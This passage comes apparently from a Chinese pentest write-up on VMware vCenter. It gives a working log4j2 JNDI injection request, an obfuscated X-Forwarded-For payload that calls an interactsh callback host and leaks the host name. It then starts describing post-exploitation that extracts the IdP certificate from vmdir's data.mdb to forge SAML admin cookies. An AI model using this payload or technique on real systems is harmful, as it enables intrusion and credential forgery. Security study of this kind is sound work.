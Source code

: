 `com.vmware.h4.vsphere.ui.bootstrap.controller.ProvidersController.getProviderLogo()` 函数代码比较简单，通过 `URLConnection` 读取 URL 并解析。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091611840.png-water_print](assets/1708572547-d2e4c3d5beecd3c36c32f89d82b3be44.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091611840.png-water_print")

### [](#27-log4j2-jndi-%E6%B3%A8%E5%85%A5)2.7 log4j2 JNDI 注入

VMware 的产品同样也受 log4j2 漏洞的影响，具体可以参考：[VMSA-2021-0028](https://www.vmware.com/security/advisories/VMSA-2021-0028.html)。

POC：

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-log4j-jndi-rce.yaml`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```http<br>GET /websso/SAML2/SSO/vsphere.local?SAMLRequest= HTTP/1.1<br>Host: {{Hostname}}<br>X-Forwarded-For: ${jndi:${lower:d}n${lower:s}://${env:hostName}.{{interactsh-url}}}<br>``` |

具体漏洞成因在此就不再赘述。

## [](#3-%E5%90%8E%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95)3 后渗透测试

### [](#31-saml-%E8%AF%81%E4%B9%A6%E7%99%BB%E5%BD%95)3.1 SAML 证书登录

vSphere 5.0 版本引入了 SSO，支持使用 SAML 作为授权服务支持。当用户登录服务时，该服务会将身份验证请求转发给 SAML。SAML 验证用户凭据是否正确以及他们是否有权访问指定的服务。

在 vCenter 中从 `/storage/db/vmware-vmdir/data.mdb` 提取 IdP 证书，为管理员用户创建 SAML 请求，最后使用 vCenter server 进行身份验证并获得有效的管理员 cookie。

首先需要从 vCenter 获得数据库文件：
